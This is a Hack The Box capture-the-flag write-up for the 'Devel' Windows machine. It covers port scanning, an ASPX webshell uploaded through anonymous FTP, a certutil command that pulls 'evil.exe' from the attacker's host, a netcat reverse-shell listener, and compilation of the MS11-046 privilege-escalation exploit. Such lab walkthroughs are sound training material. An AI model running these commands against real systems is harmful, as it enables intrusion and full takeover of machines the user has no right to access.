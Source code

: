 ```yaml
---
title: Writeup - HTB Devel
date: 2023-11-13
author: kei5uke
description: Writeup for HTB Devel
tags:
  - windows
  - writeup
---
```


# Devel

# Enumeration

## Nmap

```bash
┌──(root💀kali)-[~/devel]
└─# nmap -sV -sC -T4 -p- 10.129.105.132 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-13 18:41 EET
Nmap scan report for 10.129.105.132
Host is up (0.054s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 113.43 seconds
```

## FTP

FTP is readable and writeable

![Screenshot 2023-11-13 at 18.48.24.png](Devel%20f19bb8bb1789445f9b40f3338077e67b/Screenshot_2023-11-13_at_18.48.24.png)

I uploaded command aspx file from /usr/share/webshells/ 

Looks like its working. But I need a proper shell.

![Screenshot 2023-11-13 at 19.09.35.png](Devel%20f19bb8bb1789445f9b40f3338077e67b/Screenshot_2023-11-13_at_19.09.35.png)

I used the command below:

```bash
certutil.exe -urlcache -split -f "http://192.168.49.68/evil.exe" "C:\Backup\evil.exe"
```

![Screenshot 2023-11-13 at 19.24.09.png](Devel%20f19bb8bb1789445f9b40f3338077e67b/Screenshot_2023-11-13_at_19.24.09.png)

![Screenshot 2023-11-13 at 19.24.53.png](Devel%20f19bb8bb1789445f9b40f3338077e67b/Screenshot_2023-11-13_at_19.24.53.png)

I got first shell.

```bash
┌──(root💀kali)-[/opt/generic]
└─# rlwrap nc -lvnp 21                                                         
listening on [any] 21 ...
connect to [10.10.16.23] from (UNKNOWN) [10.129.105.132] 49186
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
```

# Privilege Escalation

sysinfo

```bash
c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          13/11/2023, 6:40:33 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.063 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.142 MB
Virtual Memory: In Use:    999 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.129.0.1
                                 IP address(es)
                                 [01]: 10.129.105.132
                                 [02]: fe80::303f:619:f6ed:cb15
                                 [03]: dead:beef::b027:6d8a:fa22:9574
                                 [04]: dead:beef::303f:619:f6ed:cb15
```

I found the usable script.

[Microsoft Windows (x86) - 'afd.sys' Local Privilege Escalation (MS11-046)](https://www.exploit-db.com/exploits/40564)

Compiled the script and downloaded.

```bash
┌──(root💀kali)-[/opt/generic]
└─# i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32
                                                                                                                              
┌──(root💀kali)-[/opt/generic]
└─# python3 -m http.server 80                               
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.105.132 - - [13/Nov/2023 19:41:01] "GET /MS11-046.exe HTTP/1.1" 200 -
```

# Root shell

![Screenshot 2023-11-13 at 19.43.39.png](Devel%20f19bb8bb1789445f9b40f3338077e67b/Screenshot_2023-11-13_at_19.43.39.png)

# Note

You can try asp or aspx for getting reverse shell.

Old windows tends to be easily exploitable with just one script.